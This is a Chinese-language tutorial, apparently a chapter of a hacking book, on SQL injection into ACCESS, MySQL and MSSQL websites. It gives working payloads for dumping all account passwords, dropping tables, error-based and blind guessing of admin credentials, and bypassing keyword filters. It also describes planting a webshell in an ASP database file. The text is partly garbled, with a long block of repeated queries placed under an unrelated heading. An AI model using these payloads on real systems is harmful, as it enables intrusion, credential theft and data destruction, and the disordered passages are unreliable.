

依次替换掉WHERE>的内容，就可以取得数据库中所有的账号密码组。黑客甚至可以通过以下语法将所有的账号密码连接成字串，比如在用户名输入框输入如下的SQL语句：

```sql
';DECLARE @str VARCHAR(8000) SET @str='' SELECT @str=@str+' ''+UserName+''+Password FROM tblUser WHERE UserName>@str SELECT @str AS IDPass INTO tblHacker--
```

先申明一个长度为8000的字符变量`@str`，将整个`tblUser`表中的内容组成一个字串放到变量`@str`之内。

## 获取字段数量

SQL语句变成：

```sql
SELECT * FROM tblUser WHERE UserName=' ' GROUP BY UserID,Password,Fn HAVING 1-- AND Password='asdf'
```

这样列出了所有字段，完全表示所有的字段都在里面了。

## 删除表

在用户名框中输入如下内容，删除掉刚新建的表`Hacker`：

```sql
'; DROP TABLE tblHacker--
```



# 第一章 数据库入侵相关技术

`exists (select * from [admin])`，如图 8 所示。


链接后的`and exists (select * from [admin])`就是 SQL 语句，加上 and 是为了连接两个语句，就好像我们在 GOOGLE 中搜索时加的 AND 一样，把两个语句连在一起执行。最后的结果有两个可能：一个是真的，一个是假的。如果为假，页面会返回错误，如果为真，返回的就是正确页面，这叫“猜解法”。

如果是 MSSQL 的数据库，则可能返回 SQL 语句执行后的结果。直接拿出结果利用的是 MSSQL 的出错提示功能，这其实是将不同类型的数据进行比较，诱使 MSSQL 报错。

简单的来说，假如在 MSSQL 中有一个 = 号，它左边是个数字，右边是个字符，这显然是无法相等（无法比较）的。MSSQL 会将数据进行转换，但字符是无法转换成数字的，这时 MSSQL 会返回一个出错提示：“将 varchar 值 X X X X 转换为数据类型为 int 的列时发生语法错误”。

如果在 = 号左边是一个查询管理员的语句，如`(select top 1 password from [admin])`，将它与 = 号右边的数字 1 来进行比较，暴出的就是左边查询出的字段值与 1 比较后的结果。

由于比较时转换为同类型数据出错，暴出的结果就是报错信息：“将 varchar 值 admin888 转换为数据类型为 int 的列时发生语法错误”，这样就从中的直接得到了结果。

这种方法比 ACCESS 数据库的猜解要简单得多，叫“暴数据法”。注入的主要手法其实就两种——“猜”和“暴”！最后请读者记住，ACCESS 只能“猜”，而 MSSQL 数据库可以“暴”，也可以“猜”。

# 2 常见的数据库管理系统有哪些？在注入时有什么区别？

常见的数据库主要有 ACCESS 数据库、MYSQL 数据库、MSSQL 数据库。一般个人及小型的网站通常使用 ACCESS 数据库，这种数据库使用一个可读文件保存数据库信息，默认后缀名为`.MDB`，如图 9 所示。



另外，也可以使用专用的查看器，比如“辅臣数据库查看器”或 OFFICE 2000 等直接查看数据库内容，如图 10 所示。


ACCESS 数据库对硬件要求不高，管理方式简单，可以直接手动添加或修改内容，特别适合流量及数据少的网站。从安全角度来看，在没有专业安全常识的情况下，相对比 MYSQL 和 MSSQL 安全，因为 MYSQL 和 MSSQL的功能更多。

网络安全行业有句话叫“功能越少，安全性越高！”，ACCESS 数据库的用户在注入中只有查询的权限，只要密码设置得当，数据库文件后缀不为`.ASP`等可执行脚本，相信入侵起来还是比较困难的。

MYSQL 和 MSSQL 常应用于流量大，数据多的网站，在安全管理方面需要一些更专业点的知识。如果进行了有效的管理和维护，其性能是 ACCESS 数据库无法比拟的，现在它基本也是大家最普遍采用的数据库。

数据库无法被直接读取，只有在 MSSQL、MYSQL 数据库服务器下通过专门程序查看，其操作依赖于专门的语句和命令。如图 11 所示，这是部分 MSSQL 数据库执行语句。


这三种数据库都是存在 SQL 注入漏洞的，但是它们在利用程度和方式上有所不同。同一个注入漏洞的整站系统，使用的数据库不同，利用的思路也有不同：

- ACCESS 数据库环境下，注入点只能用来查询，先得出管理员表的字段，然后才能得出管理员的账号和密码，是用“猜”的方法，主要用的是`SELECT`语句进行查询；
- MYSQL 主要入侵手法，是读取数据库连接文件得到 MYSQL 的账号和密码，然后连接数据库进行入侵；
- MSSQL 的主要入侵手法是通过注入点获取 WEB 主机的目录，找到网站所在的路径，然后通过注入点备份一个 Webshell。

三种数据库中以 MSSQL 入侵最复杂，但却灵活，是 SQL 注入目前的研究方向。针对三种数据库的入侵，在后续章节会专门介绍。除了三种常见的数据库外，Oracle 也是常见的一种，常用于大型数据检索的网站，如电信、证券等，这种数据库同样存在 SQL 注入漏洞。

# 3 注入方法与防范

首先，ACCESS、MYSQL 和 MSSQL 注入的检测方法是一样的，可以在链接后加一个`'`（单引号）后浏览，看返回的页面是否正常，以此判断是否存在注入。

怎么判断页面是否正常呢？输入`'`后得到的页面则是正常页面，除此之外所有与之不同的页面（包括出错提示、返回首页）都认为是非正常页面。不过需要注意，明显的提示和返回首页这两种页面并不属于正常页面，这种页面的“不正常”相当不能当作注入点对待。

对初学者强调一下，所有的注入单引号、分号、逗号等字符全部是在英文状态下的字符，而不是汉语全角下的字符。在注入时，ACCESS、MYSQL、MSSQL 三种数据库的语句对大小写敏感，即大写和小写字母组成的语句的作用是一样的。

从数据库返回错误我们可以得知类型，例如：

- ACCESS 数据库报错通常为：Microsoft Database Engine 错误`'80004005'`
- MYSQL 数据库报错通常为：Warning `mysql_fetch_array` `mysql_fetch_object`，信息中通常会有明显的 MYSQL 字样
- MSSQL 数据库报错通常为：Microsoft OLE DB Provider for SQL Server 错误`'80040e14'`

除了经典的`'`判断之外，在链接后加入`and 1=1`或`and 1=2`后浏览，通过看返回结果的信息，也是判断链接是否为注入点的重要技巧。现在越来越多的网站开始过滤单引号，如果到链接后面提交`'`就被过滤掉并显示提示，或者直接回到指定页面，在 URL 后加入单引号后网站返回首页。



此外还有一种情况，那就是输入单引号后返回的页面仍是当前页面并无变化，这也是一种过滤的情况。正因为对处于风口浪尖的单引号过滤日益增多，`and 1=1`和`and 1=2`判断法正在成为主流。

我们找到一个站，在链接后输入`and 1=1`（and 前有一个空格，请参看图16 中的链接部分）返回正确页面，如图16所示。这里我提醒大家看清楚链接中的`id=5`及页面中的整体内容。


然后我们再把链接中的`and 1=1`改成`and 1=2`，其实返回的是个错误页面，如图17所示。这种情况下，当然要排除那些定制的出错页面（比如404 出信息提示那种），主要是看应该正常浏览的页面出现不正常的显示情况。


怎么知道图17是不正常的页面呢？页面上并没有什么奇怪的错误嘛？我前面提醒过大家看清楚图16 的`id`数字和页面整体内容，再来看图17，`id`数字并没有变，但在使用`and 1=2`后页面并没有回到刚才那个 ID 号为5的软件下载页面，而是跳到了别处，这是一个不正常的页面跳转，则说明此链接90%存在注入漏洞。

下面说一下在 MSSQL数据库中的一个独特检测方法：

MSSQL数据库支持多句执行，多句执行的两条命令之间的分隔符是`;`（分号），所以 MSSQL 的注入检测除了`and 1=1`和`and 1=2`外，还可以用`;`（分号）和`'`（单引号）的返回不同来判断。

这种判断方法是 MSSQL 数据库独有的，这点技巧相当重要，有很多网站过滤了查询关键字，但却漏掉了一个小小的`;`号，结果导致能在语句后提交执行 MSSQL。看图18所示，加入`;`后返回正确页面，而之前加入`and 1=2`时返回非正常页面，说明注入点是 MSSQL数据库。


在此强调一点，虽然用单引号和分号能检测是否存在，但是这种方法常常出现误判。很多网站是 ACCESS 数据库，在过滤单引号后出现非正常页面，容易认为是注入点。由于脚本查询数据库的语句不同，`and 1=1`和`and 1=2`还可以写成变形的形式，如：

- `and 1=1`可以写成`' and '1`
- `and 1=2`可以写成`' and '2`

这种变形的注入常常出现在字符型的注入中，实际的结果是：

- `Select * from admin where name='nohack' and '1'`
- `Select * from admin where name='nohack' and '2'`

由于`1=2`肯定是错误的，造成语句出错，返回自然不会是正常页面。如果确认存在漏洞，提交语句时，最后加上`and '1'`来闭合，语句需写成：


`http://www.xxx.com/login.asp?id=nohack' and (select top 1 mid(username,1,1) from Admin)>0 and '1'`

最后提交的语句是：

```
Select * from admin where name='nohack' and (select top 1 mid(username,1,1) from Admin)>0 and '1'
```

这样的语句肯定是执行成功的，以这种形式提交语句，其他的注入方法就和普通的无区别。

## ACCESS注入基础

在介绍 SQL注入的相关章节中向大家提到过，ACCESS注入只能“猜”，意思是只能通过返回的正常或不正常页面来判断执行结果是否正确。这种与否的回答足够让我们猜出管理员账号和密码等信息。

ACCESS 注入的流程一般如下：

- (1) 确定管理员表名
- (2) 确定存放管理员账号密码的字段名
- (3) 猜管理员账号密码的长度
- (4) 逐个字符猜出 ASCII 码
- (5) 转换 ASCII 码为十进制字符得到密码

看第一步，确定管理员表名，用到的语句是：`and exists (select * from [guanli])` 方括号中的`guanli`就是猜测存在的表名，可以将其替换为常见表名`admin`、`manage`等来猜是否存在。如果不存在，页面会返回不正确，如图19所示。



图19 中很明确的提示该表不存在，继续替换直至表名正确为止。在此例中，当猜解表名为`admin`时返回了正确页面，如图20所示。



这就说明表名猜对了，数据库中的确存在叫`admin`的表。在以上例子中，当数据库中不存在“`guanli`”这个表时，页面返回了明显的提示。其实在更多的情况下，页面是不会出现这么直白的提示，需要以正确与错误来判断是否猜中了表名。

得到了表名，接下来是猜解表中的字段名，方法和猜表名类似，也是替换语句中字段名，语句是：`and exists (select top 1 [name] from [admin])` 前面`[name]`方括号中的`NAME`可以换成你要查询的字段名，后面`ADMIN`则是要查询的表名。这一句的意思就是查询在`ADMIN`表中是否存在`NAME`字段。判断方法和前面一样，如果存在则返回正常页，反之则是出错页面。

猜解完字段名和表名后，就要猜出字段中字符的长度并逐一猜解每一位字符。先来看看如何猜解字符长度，提交语句：`and (select top 1 len(username) from Admin)>3` 语句的意思是，猜解`admin`表中的`username`字段的长度是否大于3。比如我们提交到`>5`时页面不正常，说明这个数不大于5，则`username`字段的长度为5，语句中的`len`是个函数，作用就是取括号中参数的长度值。

在知道了表名、字段名以及字段中内容的字符长度后，就要用折半法猜出数据，这是最为关键的一环。请看语句：`and (select top 1 mid(username,1,1) from Admin)>0 and '1` 这种语句是`mid`函数的作用，是取出字符串的第一个字符。




## 5 如何向数据库插入木马

本小节只说说 ACCESS 数据库中插入木马，MYSQL、MSSQL 等等技术不在此范围内。在 ACCESS 数据库中插入木马，要具备三个条件：

- (1) 数据库里没有防下载等破坏数据库的数据。如果数据库作了防下载，插入木马后无法执行。
- (2) 要知道数据库的地址。如果不知道，插马后无法连接。
- (3) 数据库要是 ASP 或 ASA 等能被服务器当作 脚本文件来执行的后缀文件名，否则插马后无法解析。

```
Select * from admin where name='nohack' and (select top 1 mid(username,1,1) from Admin)>0 and '1'
Select * from admin where name='nohack' and (select top 1 mid(username,1,1) from Admin)>0 and '2'
Select * from admin where name='nohack' and (select top 1 mid(username,1,1) from Admin)>0 and '3'
Select * from admin where name='nohack' and (select top 1 mid(username,1,1) from Admin)>0 and '4'
Select * from admin where name='nohack' and (select top 1 mid(username,1,1) from Admin)>0 and '5'
Select * from admin where name='nohack' and (select top 1 mid(username,1,1) from Admin)>0 and '6'
Select * from admin where name='nohack' and (select top 1 mid(username,1,1) from Admin)>0 and '7'
Select * from admin where name='nohack' and (select top 1 mid(username,1,1) from Admin)>0 and '8'
Select * from admin where name='nohack' and (select top 1 mid(username,1,1) from Admin)>0 and '9'
Select * from admin where name='nohack' and (select top 1 mid(username,1,1) from Admin)>0 and 'a'
Select * from admin where name='nohack' and (select top 1 mid(username,1,1) from Admin)>0 and 'b'
Select * from admin where name='nohack' and (select top 1 mid(username,1,1) from Admin)>0 and 'c'
Select * from admin where name='nohack' and (select top 1 mid(username,1,1) from Admin)>0 and 'd'
Select * from admin where name='nohack' and (select top 1 mid(username,1,1) from Admin)>0 and 'e'
Select * from admin where name='nohack' and (select top 1 mid(username,1,1) from Admin)>0 and 'f'
Select * from admin where name='nohack' and (select top 1 mid(username,1,1) from Admin)>0 and 'g'
Select * from admin where name='nohack' and (select top 1 mid(username,1,1) from Admin)>0 and 'h'
Select * from admin where name='nohack' and (select top 1 mid(username,1,1) from Admin)>0 and 'i'
Select * from admin where name='nohack' and (select top 1 mid(username,1,1) from Admin)>0 and 'j'
Select * from admin where name='nohack' and (select top 1 mid(username,1,1) from Admin)>0 and 'k'
Select * from admin where name='nohack' and (select top 1 mid(username,1,1) from Admin)>0 and 'l'
Select * from admin where name='nohack' and (select top 1 mid(username,1,1) from Admin)>0 and 'm'
Select * from admin where name='nohack' and (select top 1 mid(username,1,1) from Admin)>0 and 'n'
Select * from admin where name='nohack' and (select top 1 mid(username,1,1) from Admin)>0 and 'o'
Select * from admin where name='nohack' and (select top 1 mid(username,1,1) from Admin)>0 and 'p'
Select * from admin where name='nohack' and (select top 1 mid(username,1,1) from Admin)>0 and 'q'
Select * from admin where name='nohack' and (select top 1 mid(username,1,1) from Admin)>0 and 'r'
Select * from admin where name='nohack' and (select top 1 mid(username,1,1) from Admin)>0 and 's'
Select * from admin where name='nohack' and (select top 1 mid(username,1,1) from Admin)>0 and 't'
Select * from admin where name='nohack' and (select top 1 mid(username,1,1) from Admin)>0 and 'u'
Select * from admin where name='nohack' and (select top 1 mid(username,1,1) from Admin)>0 and 'v'
Select * from admin where name='nohack' and (select top 1 mid(username,1,1) from Admin)>0 and 'w'
Select * from admin where name='nohack' and (select top 1 mid(username,1,1) from Admin)>0 and 'x'
Select * from admin where name='nohack' and (select top 1 mid(username,1,1) from Admin)>0 and 'y'
Select * from admin where name='nohack' and (select top 1 mid(username,1,1) from Admin)>0 and 'z'
```

一句话马出错提示，说明提交是成功的，如图27、图28所示。




把`http://www.xxx.com/e/pop/database/data.asp`这个数据库的地址填入到一句话马的客户端提交地址，即可以得到WEBSHELL。接着就可以通过这个小马提交大马，把地址填入，将大马代码输入，再输入正确的密码，提交即可，如图29所示。



## 6 基础知识——AND与OR注入技术

在我们以前学习的经典SQL注入中都是用`and 1=1`和`and 1=2`来判断注入点，并使用其衍生语句进行左右判断来分析注入结果，似乎注入的核心都在`and 1=1`和`and 1=2`。那么如果`and 1=1`和`and 1=2`被网站过滤了，还能注入吗？

回答是肯定的，能！一般常用的检测注入漏洞的方法是在URL后面加`and 1=1`和`and 1=2`来检测，这种教科书似的“`and =`”检测法是利用数据库命令中的逻辑关系“与”来进行的。

简单地说，就是在URL本身的语句后面再用`and`命令强行加上一个其它的语句，让这个新加的语句能和URL中本身包含的语句一起被执行，即`and`左边和右边的语句都是被执行的。

`and`这里的作用是把两个语句“粘”到一起提交进数据库。如果`and`前面的语句和后面语句结果都是正确，则逻辑“与”的关系为真。如果存在注点，`and`前后的语句都被执行了，并且`and`后面是`1=1`这个绝对为真的结果时，页面返回应该是正常的。

提交的值如果改成了`1=2`这个绝对为假的结果，这时的情况是：`and`前面的语句是绝对正确，而后面的`1=2`绝对错误，逻辑“与”为假，则返回错误页面。这样就可以以此为依据来判断`and`后的语句是否被数据库执行了。

`And`和`or`都属于计算机三种逻辑关系中的运算符，三种基本逻辑关系如下：

（1）“与”逻辑关系和“与”运算对应`and`

“与”逻辑的含义是：当决定某一事物结果的所有条件都同时具备时，结果才能发生。这种条件和结果间的因果关系称为“与逻辑”。

（2）“或”逻辑关系和“或”运算对应`or`

“或”逻辑的含义是：在决定某一事物的所有条件中，只要有一个或一个以上的条件具备时，结果就会发生。这样的因果关系称为“或逻辑”。

（3）“非”逻辑和“非”运算

“非”逻辑的含义是：当条件不具备时，结果才发生。这样的因果关系称为“非逻辑”。

“非”逻辑表达式可以写成 $Z = \overline{A}$，其中 $\overline{A}$ 读作 A 非或 A 反。

如果在入侵中，“`and`、`=`”这些关键字被网站过滤了，我们可以利用另一种逻辑关系“或”来检测注入，这种逻辑关系的表达词为`or`，即在 URL 后提交`or 2>1 or 1>2`来检测，如图 30 所示。



这是 `ID` 为 1344 的 URL 后加上 OR 注入语句的返回结果，直接提交 URL 不加注入语句返回的是名为“王立山”的页面，此为正常页面，如图 31 所示。


从图 30 和图 31 可以看到，与`and`注入不同，当`or 2>1`时返回的是错误页面，而`1>2`时返回的是正确页面，这是逻辑“或”是否成立的判断。

`and`注入要求前后两个语句 A 和 B 都正确才真，`or`注入要求前后两个语句只要 A 或 B 有一个正确就真。如果 A、B 两个语句都是正确的，反而满足 A、B 中只有一个正确的这个结果了。请记住：`or`注入时，`or`后面的语句如果是正确的，则返回错误页面；如果是错误，则返回正确页面，说明注入点。

判断语句正确之后，`or`的注入和`and`注入的语句并不大。另外，`2>1`和`1=1`是等价的，都是执行正确的语句。下一步我们试试进行`or`注入来猜表名。在注入点 URL 后输入：`or exists(select * from admin])` 这是`or`注入的语句，对应的`and`注入语句是：`and exists(select * from admin])` 返回是正常页面，如图 32 所示，说明`or`后面语句是正确的。

如果数据库不存在`admin`表，那么会返回错误。利用这个办法可以猜测数据库中的表。接着还可以猜测中的字段，把其中一个字段换成你要查的字段，例如：`http://www.xxx.com/down.asp?id=233 and 1=1 union select 1,2,3,4` 如图 33 所示，这是`and`注入的语句，直到页面返回错误。

# 第一章 数据库入侵相关技术

页面返回正常，说明语句结果正确，长度大于 5。那么想想，哪个数大于 4 而不大于 5 呢？接着可以重复这个过程得出全部结果用`or`逻辑关系来注入，总体上与`and`注入无区别，它的优势是能绕过`and`这个关键词。此外有点小窍门，在注入判断时最好用大于符号 `>` ，因为小于符号 `<` 和等于符 `=` 也是被过滤的字符，而大于符号 `>` 正好绕过这种过滤，又能形成判断。

